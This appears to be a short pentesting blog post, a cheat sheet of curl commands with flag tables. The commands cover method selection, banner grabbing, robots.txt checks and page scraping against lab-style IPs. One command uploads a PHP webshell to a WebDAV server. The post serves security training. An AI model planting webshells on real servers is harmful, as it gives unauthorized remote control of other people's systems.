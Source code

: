 ```yaml
---
layout: post
title: 'Curl For Pentesters'
date: '2022-04-19'
description: 'Curl can be used for a number of useful activities during a pentest engagement. It can send HTTP Methods and data to an API endpoint, upload a file to a WebDav Server or grab server response headers, amongst other things. This article looks at a couple of practical uses for the Curl utility.'
coverimage: Curl_For_Pentesters.jpg
tags: 
published: true
posttype: article
categories: blog
---
```

# Curl

## Uploading

Uploading a webshell to a WebDav server

```
curl --user <user>:<pass> -T /ftphome/mshell.php http://192.168.30.55/webdav/ --anyauth
```

Break down of Flags

| Flag | Description |
| --- | --- |
| --anyauth | Tells curl to figure out an authentication method by itself and use the most secure one the remote site claims to support. |
| -T | Upload-file <file> |
| -u, --user | Specify User:Password credentials. |


## HTTP Method

Specify the method to use: POST, HEAD, PUT, GET, DELETE

```
curl -X <Method>
```

## Banner grabbing for websites

Includes the headers

```
curl -i <ip>
```

Includes headers and follows redirects

```
curl -i -L <ip>
```

## Viewing Websites

Looking at a webpage from the shell

```
curl <ip> -s -L | html2text -width '99'
```

robots.txt check

```
curl <ip>/robots.txt -s | html2text
```

Grep a page for all title and href tags

```
curl -s -L 10.11.1.71 | grep "title\|href" | sed -e s/^[[:space:]]*//
```

## Flags

| Flag | Description |
| --- | --- |
| -i | Include the HTTP header in the output. |
| -o | Output to a file |
| -s | for silent mode, better if you want to save it to file |
| -L | Follow redirects |